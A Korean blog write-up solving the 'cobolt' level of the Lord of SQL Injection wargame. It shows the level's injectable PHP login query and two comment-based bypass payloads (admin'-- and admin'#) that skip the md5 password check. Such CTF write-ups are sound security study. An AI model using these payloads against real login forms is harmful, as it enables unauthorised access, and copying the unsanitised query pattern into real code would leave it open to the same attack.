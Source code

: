 ```yaml
---
layout: post
title: ! "[Lord of SQL Injection] LoS - cobolt 문제풀이"
excerpt_separator: <!--more-->
comments: true
tags:
  - Write-up
  - Lord of SQL Injection
---
```


두 번째 문제는 `cobolt`이다.  

모든 문제의 이름이 괴물(?) 몬스터(?)의 이름인 것 같다.  

<!--more-->

코드는 다음과 같다.  

```php
----------------------------------------------------------------------------------
query : select id from prob_cobolt where id='' and pw=md5('')
----------------------------------------------------------------------------------

<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

이번에는 `pw`를 쿼리에 넣을 때 `md5`로 해싱을 한다.  

때문에 이 전 문제처럼 pw에 인젝션을 해 문제를 풀 수 없다.  

문제를 풀기위한 조건도 좀 달라졌다.  

```php
if($result['id'] == 'admin') solve("cobolt");
```

즉, 쿼리 결과로 나온 `id`가 `admin`이어야 문제를 풀 수 있다.  

어떻게 할 지 고민하다가 `pw` 검증 루틴을 아예 무시하도록 하는 방법을 사용했다.  

나는 주석을 사용했는데, 주석은 `#`이나 `--`를 사용한다.  

이 때, `--`를 사용할 때는 뒤에 꼭 공백이 있어야 한다.  

따라서 다음과 같은 두 가지 방법으로 문제를 풀 수 있다.  

```
1. ?id=admin'--%20
2. ?id=admin'%23
```

공백과 #은 `URL Encoding`을 해서 넘겨주어야 한다.  

역시 이번에도 문제가 풀렸다.  

```php
--------------------------------------------------------------------------------------------
query : select id from prob_cobolt where id='admin'#' and pw=md5('')
--------------------------------------------------------------------------------------------

COBOLT Clear!
<?php
  include "./config.php"; 
  login_chk();
  dbconnect();
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[id])) exit("No Hack ~_~"); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  $query = "select id from prob_cobolt where id='{$_GET[id]}' and pw=md5('{$_GET[pw]}')"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id'] == 'admin') solve("cobolt");
  elseif($result['id']) echo "<h2>Hello {$result['id']}<br>You are not admin :(</h2>"; 
  highlight_file(__FILE__); 
?>
```

`COBOLT Clear!!`
